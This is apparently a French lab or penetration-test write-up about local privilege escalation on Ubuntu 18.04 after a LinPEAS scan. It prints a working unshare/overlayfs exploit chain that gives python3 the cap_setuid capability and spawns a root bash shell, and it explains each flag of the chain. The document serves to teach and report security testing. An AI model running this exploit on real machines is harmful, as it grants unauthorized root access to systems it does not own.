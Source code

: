 ![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.037.png)

![](Aspose.Words.282b0556-3b48-4df1-aa8d-9c63c5779162.038.png)

Nous avons utilisé LinPEAS pour analyser le système et identifier des vulnérabilités potentielles, ce qui a facilité notre stratégie d'escalade de privilèges sur Ubuntu 18.04 LTS.

Nos recherches nous ont conduits à essayer deux commandes spécifiques pour le privesc :

- **Première Commande** : ```unshare -rm sh -c "mkdir l u w m && cp /u\*/b\*/p\*3 l/"/```
- **unshare -rm sh -c**
  - **unshare** : Détache de l'espace de noms actuel et crée un nouvel espace.
  - **-r** : Exécute le processus en tant que root dans le nouvel espace de noms.
  - **-m** : Crée un nouvel espace de noms pour le montage.
  - **sh -c** : Exécute les commandes suivantes dans un shell.
- **mkdir l u w m && cp /u\*/b\*/p\*3 l/**
- Crée quatre répertoires (**l**, **u**, **w**, **m**).
- Copie le binaire Python 3 (recherché via **/u\*/b\*/p\*3**) dans le répertoire **l**. Ce binaire sera utilisé pour exécuter du code avec des privilèges élevés.

Cette commande utilise unshare pour créer un nouvel espace de noms utilisateur et configurer un système de fichiers en superposition. Elle implique la création de plusieurs répertoires et la copie d'un binaire Python, préparant ainsi le terrain pour l'escalade de privilèges.

- **Deuxième Commande** : ```setcap cap\_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/\*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'```
- **setcap cap\_setuid+eip l/python3**
  - **setcap** : Modifie les capacités des fichiers/programmes.
  - **cap\_setuid+eip** : Ajoute la capacité à **python3** de changer l'UID d'un processus (utile pour obtenir des privilèges élevés).
  - Appliqué à **python3** dans le répertoire **l**.
- **mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/\***
- Montage de type **overlay**, permettant de superposer un système de fichiers.
- **lowerdir=l** et **upperdir=u** définissent les répertoires de base et supérieur pour la superposition.
- **workdir=w** : Répertoire de travail pour le montage.
- **m** : Point de montage.
- **touch m/\*** : Crée de nouveaux fichiers dans le point de montage pour déclencher l'overlay.
- **u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'**
- Exécute **python3** depuis le répertoire **u**.
- Le script Python utilise **os.setuid(0)** pour changer l'UID du processus en 0 (root).
- **os.system("bash -i")** lance une shell interactive (**bash**) avec des privilèges root.

Cette commande complexifie le processus en établissant des privilèges sur le binaire Python, permettant ainsi son exécution avec des droits élevés. L'exécution de ce script Python me donne des privilèges root et ouvre une shell interactive avec ces privilèges.

**Résultats et Réflexions etape 1**

Lors de l'escalade de privilèges sur la machine cible, nous avons pris plusieurs captures d'écran clés pour documenter et appuyer notre processus. Voici les moments que nous avons choisis de capturer.
